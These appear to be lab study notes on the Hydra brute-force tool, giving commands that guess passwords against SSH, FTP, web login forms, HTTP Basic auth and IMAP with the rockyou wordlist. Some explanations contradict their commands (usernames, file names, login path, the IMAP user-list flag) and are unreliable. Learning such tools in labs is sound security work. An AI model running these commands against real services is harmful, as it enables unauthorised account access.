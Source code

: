 ## Introduction
- Hydra is a brute force online password cracking program, a quick system login password “hacking” tool.
- Hydra can run through a list and “brute force” some authentication services.
- Hydra supports, i.e., has the ability to brute force the following protocols: “Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MEMCACHED, MONGODB, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, Radmin, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, TeamSpeak (TS2), Telnet, VMware-Auth, VNC and XMPP.”

## Installing Hydra
```python
apt install hydra
```

## Hydra Commands

- The options we pass into Hydra depend on which service (protocol) we’re attacking.

**Example** - 
if we wanted to brute force FTP with the username being `user` and a password list being `passlist.txt`, we’d use the following command:
```python
hydra -l user -P passlist.txt ftp://10.10.162.94
```

### SSH
```python
hydra -l <username> -P <full path to pass> 10.10.162.94 -t 4 ssh
```

![[hydra1.png]]

**Example** - 
```python
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.162.94 -t 4 ssh
```
- Hydra will use `root` as the username for `ssh`
- It will try the passwords in the `passwords.txt` file
- There will be four threads running in parallel as indicated by `-t 4`

#### SSH to account
```python
ssh molly@10.10.162.94
```
### Post Web Form
- We can use Hydra to brute force web forms too.
- You must know which type of request it is making; GET or POST methods are commonly used.
- You can use your browser’s network tab (in developer tools) to see the request types or view the source code.
```python
sudo hydra <username> <wordlist> 10.10.162.94 http-post-form "<path>:<login_credentials>:<invalid_response>"
```
![[hydra2.png]]

#### Below is a more concrete example of Hydra command to brute force a POST login form:
```python
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.2.70 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid" -V 
```
- The login page is only `/`, i.e., the main IP address.
- The `username` is the form field where the username is entered
- The specified username(s) will replace `^USER^`
- The `password` is the form field where the password is entered
- The provided passwords will be replacing `^PASS^`
- Finally, `F=incorrect` is a string that appears in the server reply when the login fails

**Example** - 
```python
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.162.94 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
```

## Brute-forcing Default Passwords(get)
An example used is a page that prompts `Basic HTTP Authentication` form to input the username and password.
![[hydra.webp]]

**The hydra command to brute-force the above:**
```python
hydra -l bob -P /usr/share/wordlists/rockyou.txt -f MachineIP http-get /protected/
```

**Example** - 
```python
hydra -l bob -P /usr/share/wordlists/rockyou.txt -f 10.10.76.6 http-get /protected/
```
Let’s break the commands down.

- -l = login with name
- -P = wordlist or path to wordlist
- -f = Exit when login/pass pair is found
- MachineIP = the target
- http-get = Service
- /protected/ = the webpage with login

#### IMAP Bruteforce:
```sh
hydra -l userlist.txt -P defaultpw imap://192.168.0.1/PLAIN
```
